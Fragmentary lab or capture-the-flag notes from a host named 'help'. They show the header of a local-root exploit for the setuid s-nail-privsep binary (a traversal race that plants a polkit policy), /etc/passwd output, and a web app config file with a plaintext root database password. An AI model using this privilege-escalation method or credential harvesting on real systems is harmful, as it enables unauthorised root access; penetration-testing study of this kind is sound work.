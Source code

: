     ## Feel free to change or improve it any way you see fit.
    


s-nail-privget

    $ cat s-nail-privget                                                                                                                                                           
    "/*                                                                                                                                                                            
    ** 26/01/2016: s-nail-privsep local root by @wapiflapi                                                                                                                         
    ** The setuid s-nail-privsep binary has a directory traversal bug.                                                                                                             
    ** This lets us be owner of a file at any location root can give us one,                                                                                                       
    ** only for a very short time though. So we have to race a bit :-)                                                                                                             
    ** Here we abuse the vuln by creating a polkit policy letting us call pkexec su.                                                                                               
    **                                                                                                                                                                             
    ** gcc s-nail-privget.c -o s-nail-privget                                                                                                                                      
    **                                                                                                                                                                             
    ** # for ubuntu:                                                                                                                                                               
    ** ./s-nail-privget /usr/lib/s-nail/s-nail-privsep                                                                                                                             
    ** # for archlinux:                                                                                                                                                            
    ** ./s-nail-privget /usr/lib/mail-privsep                                                                                                                                      
    */                                                                                                                                                                             
                                                                                                                                                                                   
    #define _GNU_SOURCE                                                                                                                                                            
                                                                                                                                                                                   
    #include <unistd.h>                                                                                                                                                            
    #include <stdlib.h>                                                                                                                                                            
    #include <string.h>                                                                                                                                                            
    #include <stdio.h>       


passwd:

    help@help:/dev/shm$ cat /etc/passwd|grep bash
    root:x:0:0:root:/root:/bin/bash
    help:x:1000:1000:help,,,:/home/help:/bin/bash
    


/includes/config.php

    help@help:/var/www/html/support/includes$ cat config.php 
    <?php
            $config\['Database'\]['dbname'] = 'support';
            $config\['Database'\]['tableprefix'] = '';
            $config\['Database'\]['servername'] = 'localhost';
            $config\['Database'\]['username'] = 'root';
            $config\['Database'\]['password'] = 'helpme';
            $config\['Database'\]['type'] = 'mysqli';
            ?>help@help:/var/www/html/support/includes$ 
    


/support/uploads/tickets

![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548374180715_image.png)


.bash_history
